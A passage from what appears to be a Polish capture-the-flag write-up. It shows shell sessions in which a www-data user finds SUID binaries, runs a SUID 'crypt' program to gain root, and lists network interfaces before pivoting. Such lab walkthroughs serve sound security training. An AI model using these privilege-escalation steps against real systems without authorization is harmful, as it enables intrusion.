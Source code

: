 {: .text-justify}
```console
uid=33(www-data) gid=33(www-data) groups=33(www-data)
www-data@host1:/home/mike$ find / -perm -4000 2>/dev/null
find / -perm -4000 2>/dev/null
/usr/share/man/zh_TW/crypt
/usr/bin/newuidmap
/usr/bin/newgidmap
/usr/bin/passwd
/usr/bin/chfn
/usr/bin/at
/usr/bin/chsh
/usr/bin/newgrp
/usr/bin/sudo
/usr/bin/gpasswd
/usr/lib/x86_64-linux-gnu/lxc/lxc-user-nic
/usr/lib/snapd/snap-confine
/usr/lib/openssh/ssh-keysign
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/bin/mount
/bin/ping
/bin/su
/bin/umount
/bin/fusermount
/bin/ping6
www-data@host1:/home/mike$
```
**/usr/share/man/zh_TW/crypt** jest to identyczny plik, co u nas w katalogu, z tą różnicą, że ma **Suida**:
```console
www-data@host1:/usr/share/man/zh_TW$ ./crypt mike
./crypt mike
░█████╗░██████╗░██╗░░░██╗██████╗░████████╗░██████╗██╗░░██╗███████╗██╗░░░░░██╗░░░░░
██╔══██╗██╔══██╗╚██╗░██╔╝██╔══██╗╚══██╔══╝██╔════╝██║░░██║██╔════╝██║░░░░░██║░░░░░
██║░░╚═╝██████╔╝░╚████╔╝░██████╔╝░░░██║░░░╚█████╗░███████║█████╗░░██║░░░░░██║░░░░░
██║░░██╗██╔══██╗░░╚██╔╝░░██╔═══╝░░░░██║░░░░╚═══██╗██╔══██║██╔══╝░░██║░░░░░██║░░░░░
╚█████╔╝██║░░██║░░░██║░░░██║░░░░░░░░██║░░░██████╔╝██║░░██║███████╗███████╗███████╗
░╚════╝░╚═╝░░╚═╝░░░╚═╝░░░╚═╝░░░░░░░░╚═╝░░░╚═════╝░╚═╝░░╚═╝╚══════╝╚══════╝╚══════╝

id
id
root@host1:/usr/share/man/zh_TW# id
uid=0(root) gid=33(www-data) groups=33(www-data)
```
### Nmap
No i mamy **Root**a. Skoro jesteśmy na kontenerze, to sprawdźmy interfejsy sieciowe:
{: .text-justify}
```console
root@host1:/usr/share/man/zh_TW# ifconfig
ifconfig
eth0: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
        inet 192.168.250.10  netmask 255.255.255.0  broadcast 192.168.250.255
        inet6 fe80::216:3eff:fe9c:ff0f  prefixlen 64  scopeid 0x20<link>
        ether 00:16:3e:9c:ff:0f  txqueuelen 1000  (Ethernet)
        RX packets 121192  bytes 13787259 (13.7 MB)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 121376  bytes 19475089 (19.4 MB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0

eth1: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
        inet 172.16.20.2  netmask 255.255.255.0  broadcast 172.16.20.255
        inet6 fe80::216:3eff:fe46:6b29  prefixlen 64  scopeid 0x20<link>
        ether 00:16:3e:46:6b:29  txqueuelen 1000  (Ethernet)
        RX packets 5142  bytes 642990 (642.9 KB)
```